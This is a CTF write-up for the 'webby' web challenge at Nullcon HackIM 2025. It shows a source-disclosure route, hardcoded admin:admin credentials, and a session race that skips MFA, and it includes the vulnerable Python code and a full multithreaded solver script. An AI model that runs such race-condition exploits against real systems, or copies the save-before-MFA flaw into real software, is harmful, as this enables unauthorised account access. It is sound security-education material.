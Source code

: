 ## webby - Nullcon HackIM CTF Berlin 2025 Write-up

![Banner](assets/img/banner.png)

**Challenge:** webby
**Category:** Web
**Points:** 203
**Author:** minouse3

### Introduction
The challenge is name is webby, with the hint/description: “MFA is awesome! Even if someone gets our login credentials, and they still can't get our secrets!” What we’re given is a live site at http://52.59.124.14:5010 and, crucially, a way to view the application source by visiting /?source=anything, which lets us analyze exactly how authentication and MFA are implemented.

### Analyzing the website
When you visit /?source=anything, the app happily returns its own source. That happens in index.GET: it parses query params with i = web.input() and, if i.source exists (any non-empty value), it executes return open(__file__).read(). There’s no path traversal or file choice—__file__ is just “this script”, so you get a straight source disclosure.
```py
class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = login_Form()
        return render.index(f)
```

The leak reveals the routes, file-backed sessions, and the exact flag check. Sessions are persisted in a shelf at /tmp/session.shelf, which means intermediate writes are immediately visible across requests. The flag handler only trusts two keys—loggedIn and username—and does not independently verify MFA status.
```py
session = web.session.Session(app, web.session.ShelfStore(shelve.open("/tmp/session.shelf")))
FLAG = open("/tmp/flag.txt").read()

class flag:
    def GET(self):
        if not session.get("loggedIn", False) or not session.get("username", None) == "admin":
            raise web.seeother('/')
        else:
            session.kill()
            return render.flag(FLAG)
```

Credentials and MFA policy are hardcoded. The app explicitly allows admin:admin, and only admin is subject to MFA; the other users bypass MFA entirely.
```py
def check_user_creds(user,pw):
    users = {
        # Add more users if needed
        'user1': 'user1',
        'user2': 'user2',
        'user3': 'user3',
        'user4': 'user4',
        'admin': 'admin',

    }
    try:
        return users[user] == pw
    except:
        return False

def check_mfa(user):
    users = {
        'user1': False,
        'user2': False,
        'user3': False,
        'user4': False,
        'admin': True,
    }
    try:
        return users[user]
    except:
        return False
```

The vulnerability is in the login flow: after validating credentials, the code first writes loggedIn=True and username=<user> to the session and forces a save; only then, for MFA users, it performs a slow bcrypt-based token generation and later flips loggedIn=False and saves again. During the expensive hashing, the session on disk already says “admin is logged in,” which /flag accepts.
```py
 def POST(self):
        f = login_Form()
        if not f.validates():
            session.kill()
            return render.index(f)
        i = web.input()
        if not check_user_creds(i.username, i.password):
            session.kill()
            raise web.seeother('/')
        else:
            session.loggedIn = True
            session.username = i.username
            session._save()

        if check_mfa(session.get("username", None)):
            session.doMFA = True
            session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
            #session.tokenMFA = "acbd18db4cc2f85cedef654fccc4a4d8"
            session.loggedIn = False
            session._save()
            raise web.seeother("/mfa")
        return render.login(session.get("username",None))
```

### How to exploit it
The exploitation flow in practice is simple. First, obtain one session cookie by doing a plain GET to /; that sets webpy_session_id and creates the corresponding shelf entry on disk. Keep this exact cookie for all subsequent requests. Next, start a bunch of concurrent requests to /flag using that cookie and do not follow redirects, so each request returns quickly and can be retried fast. Finally, in the same cookie context, submit a login as admin with the password admin—those credentials are explicitly accepted by the challenge’s check_user_creds function. The moment the login handler persists loggedIn=True and username="admin" and then begins the bcrypt work for the MFA token, your background /flag requests will see a valid session and one of them will return the flag page with HTTP 200. If the race misses, simply rerun or increase the number of worker threads; the bcrypt cost factor provides a comfortable window, so it usually succeeds almost immediately. The critical operational details are to reuse the exact same cookie throughout, to avoid letting redirects allocate a new session, and to keep requests tight and parallel so one lands during the hashing window.

```py
import requests, threading, re

BASE = "http://52.59.124.14:5010"

# 1) Get a session cookie
bootstrap = requests.Session()
r = bootstrap.get(f"{BASE}/", allow_redirects=False)
sid = bootstrap.cookies.get("webpy_session_id")
assert sid, "No session cookie set"
cookies = {"webpy_session_id": sid}

stop = threading.Event()
flag_html = {"data": None}

def hit_flag():
    while not stop.is_set():
        try:
            r = requests.get(f"{BASE}/flag",
                             cookies=cookies,
                             allow_redirects=False,
                             timeout=1)
            if r.status_code == 200 and "ENO{" in r.text:
                flag_html["data"] = r.text
                stop.set()
                return
        except Exception:
            pass

# 2) Start multiple threads hammering /flag with the SAME cookie
threads = [threading.Thread(target=hit_flag, daemon=True) for _ in range(16)]
for t in threads: t.start()

# 3) Trigger the race: login as admin (admin/admin)
data = {"username": "admin", "password": "admin", "submit": "Login"}
# IMPORTANT: don’t follow redirects (keep it snappy)
bootstrap.post(f"{BASE}/", data=data, allow_redirects=False)

# 4) Collect result
for t in threads: t.join(timeout=2.5)

if flag_html["data"]:
    m = re.search(r'ENO\{[^}]+\}', flag_html["data"])
    print("FLAG:", m.group(0) if m else "Flag printed but couldn’t parse. See full HTML above.")
else:
    print("Missed the race. Re-run (or bump thread count).")
```

```bash
bash
┌──(minouse3㉿kali)-[~] 
└─$ python3 solver.py 
ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}
```

### Flag
```
ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}
```